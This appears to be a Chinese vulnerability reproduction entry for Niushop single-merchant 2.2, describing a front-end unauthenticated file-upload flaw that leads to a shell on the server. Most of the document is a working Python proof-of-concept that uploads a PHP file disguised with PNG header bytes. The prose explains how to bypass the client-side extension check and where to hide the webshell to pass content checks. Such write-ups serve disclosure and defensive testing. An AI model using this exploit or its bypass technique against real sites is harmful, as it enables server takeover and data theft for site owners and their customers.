 Niushop 单商户 2.2 前台getshell
===============================

一、漏洞简介
------------

二、漏洞影响
------------

Version：单商户 2.2

三、复现过程
------------

![](./.resource/Niushop单商户2.2前台getshell/media/rId24.jpg)

上传图片只做了前端校验，抓包改后缀即可绕过。

对文件内容做了检查，文件大小不能过大或过小，合成马最好放到中间。

请求包截图，删除不必要的参数仍旧能够上传。

![](./.resource/Niushop单商户2.2前台getshell/media/rId25.jpg)

所以导致**前台getshell**

### poc

    import requests

    session = requests.Session()

    paramsGet = {"s":"/wap/upload/photoalbumupload"}
    paramsPost = {"file_path":"upload/goods/","album_id":"30","type":"1,2,3,4"}
    paramsMultipart = [('file_upload', ('themin.php', "\x89PNG\r\n\x1a\n\x00\x00\x00\rIHDR\x00\x00\x00\x01\x00\x00\x00\x01\x08\x06\x00\x00\x00\x1f\x15\xc4\x89\x00\x00\x00\x0bIDAT\x08\x99c\xf8\x0f\x04\x00\x09\xfb\x03\xfd\xe3U\xf2\x9c\x00\x00\x00\x00IEND\xaeB`\x82<? php phpinfo(); ?>", 'application/octet-stream'))]
    headers = {"Accept":"application/json, text/javascript, */*; q=0.01","X-Requested-With":"XMLHttpRequest","User-Agent":"Mozilla/5.0 (Android 9.0; Mobile; rv:61.0) Gecko/61.0 Firefox/61.0","Referer":"http://127.0.0.1/index.php?s=/admin/goods/addgoods","Connection":"close","Accept-Language":"en","Accept-Encoding":"gzip, deflate"}
    cookies = {"action":"finish"}
    response = session.post("http://127.0.0.1/index.php", data=paramsPost, files=paramsMultipart, params=paramsGet, headers=headers, cookies=cookies)

    print("Status code:   %i" % response.status_code)
    print("Response body: %s" % response.content)

参考链接
--------

> https://y4er.com/post/niushop-getshell/
